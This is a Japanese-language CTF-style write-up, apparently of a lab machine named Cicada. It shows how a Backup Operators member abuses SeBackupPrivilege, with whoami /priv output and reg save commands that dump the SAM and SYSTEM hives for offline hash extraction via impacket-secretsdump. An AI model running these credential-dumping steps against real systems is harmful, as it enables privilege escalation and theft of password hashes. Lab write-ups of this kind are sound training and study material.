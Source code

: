 # Privilege Escaration

`emily.oscars`は `Backup Operators` に所属していることが分かっているので、`SeBackupPrivilege`, `SeRestorePrivilege` この２つの権限をもっていると思われます。

`whoami /priv` で確認できます。

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

## SeBackupPrivilege の悪用

SeBackupPrivilege は、オブジェクトのセキュリティ設定に関係なく、ユーザーまたはプロセスにファイルとディレクトリを読み取る権限を持ちます。この権限は、通常ユーザーがアクセスできないファイルをバックアップまたはコピーする機能を必要とする特定のバックアッププログラムまたはプロセスで使用できます。主に、レジストリからローカル管理者アカウントのパスワードハッシュを読み取るために使用され、その後、ハッシュを使用して `psexec` や `wmiexec` などのツールを使用できます。

### NTLMハッシュの取得

Windowsの認証情報は、レジストリと `ntds.dit`（Active Directoryのデータベースファイル）に保存されています。
**SeBackupPrivilege** を持つユーザーは、アクセス制御を回避してこれらの情報を取得できます。

#### レジストリからローカルアカウントのハッシュを取得

ローカルマシンのパスワードハッシュは、以下のレジストリキーに保存されています：

- `HKLM\SYSTEM` 
- `HKLM\SAM` 

これらは `impacket-secretsdump` を使ってオフライン解析が可能になります。

```bash
reg save HKLM\SYSTEM c:\tmp\system
reg save HKLM\SAM C:\tmp\sam
```

![image-20250207140550100](screenshot/image-20250207140550100.png)
